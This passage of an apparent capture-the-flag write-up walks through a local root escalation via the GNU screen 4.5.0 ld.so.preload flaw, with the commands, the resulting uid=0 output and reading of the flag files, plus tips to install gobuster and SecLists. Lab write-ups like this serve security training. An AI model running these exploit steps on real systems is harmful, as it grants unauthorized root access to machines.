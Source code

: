 I make them open and executable to the world, because if they fail it might break my shell.

``` bash
chmod 777 rootshell && chmod 777 libhax.so
```

I hen follow the rest of the script:

``` bash
cd /etc
umask 000
screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
screen-4.5.0 -ls 
/tmp/rootshell 
```

To get a root shell:

``` bash
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
```

W00t!W00t! Get the keys with:

``` bash
cat /home/shelby/user.txt
cat /root/root.txt
```

## Bonus

Get gobuster

``` bash
sudo apt install gobuster
```

Get the the OWASP SecLists

```
git clone https://github.com/danielmiessler/SecLists.git
```